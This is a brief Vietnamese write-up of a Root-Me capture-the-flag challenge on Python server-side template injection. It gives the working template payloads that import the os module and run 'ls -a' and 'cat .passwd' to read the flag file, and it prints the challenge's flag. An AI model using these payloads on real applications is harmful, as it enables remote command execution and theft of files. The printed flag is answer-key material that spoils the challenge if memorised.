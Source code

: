 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/7c09a5eb-df93-42f6-9b87-065a872b4e41)

Trong các input thì phần content có thể inject được

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/a8473bd9-2fae-4f8e-b9c0-3d21150675fd)

Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os}}```
=> import library os

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/12b4b361-0e35-42dd-b436-3003a003e8db)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/d7d5869d-c1c8-4866-934e-f68b4b6ddeee)

Sử dụng payload
```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls%20-a').read()}}```. 
Kí tự ```%20``` thay thế cho nhưng khoảng trắng 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/deeced39-c230-4392-88eb-87032e4a560d)

Thấy được nơi chứa flag là .passwd. Sử dụng payload ```{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat%20.passwd').read()}}```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/77d7a603-e9a6-4cec-9eaf-7ce85a0e20b5)

=> Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!
